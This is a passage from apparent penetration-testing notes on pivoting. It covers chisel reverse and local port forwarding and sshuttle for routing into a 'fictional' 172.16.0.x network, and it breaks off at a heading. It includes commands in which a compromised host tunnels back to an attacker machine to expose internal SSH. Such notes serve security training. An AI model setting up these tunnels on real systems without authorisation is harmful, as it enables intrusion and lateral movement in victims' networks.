 ```console
# attacker machine
$ ./chisel server -p 1337 --reverse &

# compromised host
$ ./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

This would give us access to `172.16.0.10:22` via SSH by going to `127.0.0.1:2222`

###### Local Port Forward

Here we connect from our own attacking machine to the chisel server listening on a compromised host:

```
# attacker machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

# compromised host
./chisel server -p LISTEN_PORT
```

For example, to connect to `172.16.0.5:8000` (compromised host), forwarding our local port `2222` to `172.16.0.10:22` (intended target), we could use:

```
# attacker machine
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

#### sshuttle

[sshuttle](https://github.com/sshuttle/sshuttle) is a tool that creates a tunnelled proxy which acts like a new interface by using an SSH connection.  This means that it simulates a VPN, allowing us to route our traffic through the proxy **without** the need for proxychains.  In particular, we can directly connect to devices within the target network as we would normally, and communication is encrypted due to SSH.

To install, use `apt`:

```console
$ sudo apt install sshuttle
```

###### Connecting to a Server (with credentials)

```console
$ sshuttle -r username@address subnet
```

For example, for a fictional network `172.16.0.x` with a compromised server at `172.16.0.5`:

```console
$ sshuttle -r user@172.16.0.5 172.16.0.0/24
```

We would then be asked to enter the user's credentials in order for the proxy to be established.

###### Connecting to a Server (without credentials)
